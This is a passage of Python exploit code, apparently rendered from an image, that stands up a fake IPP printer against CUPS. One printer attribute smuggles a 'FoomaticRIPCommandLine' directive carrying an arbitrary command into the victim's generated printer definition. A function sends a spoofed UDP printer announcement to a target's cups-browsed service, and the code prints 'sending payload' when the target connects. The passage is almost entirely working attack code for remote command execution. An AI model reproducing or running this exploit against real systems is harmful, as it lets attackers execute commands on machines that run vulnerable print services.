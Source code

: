 ```python
		): [Boolean(True).bytes()],
		(
			SectionEnum.printer,
			b'queued-job-count',
			TagEnum.integer
		): [Integer(666).bytes()],
		(
			SectionEnum.printer,
			b'pdl-override-supported',
			TagEnum.keyword
		): [b'not-attempted'],
		(
			SectionEnum.printer,
			b'printer-up-time',
			TagEnum.integer
		): [Integer(self.printer_uptime()).bytes()],
		(
			SectionEnum.printer,
			b'compression-supported',
			TagEnum.keyword
		): [b'none'],
		(
			SectionEnum.printer,
			b'printer-privacy-policy-uri',
			TagEnum.uri
		): [b'https//www.google.com/%22%5Cn*FoomaticRIPCommandLine: "' + self.command.encode() + b'"\n*cupsFilter2 : "application/pdf application/vnd.cups-postscript 0 foomatic-rip'],
	}
	attr.update(self.minimal_attributes())
	return attr

def operation_printer_list_response(self, req, _psfile):
	print("target connected, sending payload ...")
	attributes = self.printer_list_attributes()
	return IppRequest(
		self.version,
		StatusCodeEnum.ok,
		req.request_id,
		attributes
	)


def send_browsed_packet(ip, port, ipp_server_host, ipp_server_port):
	print("sending udp packet to %s:%d ..." % (ip, port))

	printer_type = 0x00
	printer_state = 0x03
	printer_uri = 'http://%s:%d/printers/NAME' % (
		ipp_server_host, ipp_server_port
	)
	printer_location = 'Office HQ'
	printer_info = 'Printer'

	message = bytes('%x %x %s "%s" "%s"' % (
		printer_type,
		printer_state,
		printer_uri,
		printer_location,
		printer_info), 'UTF-8'
	)

	sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
	sock.sendto(message, (ip, port))
```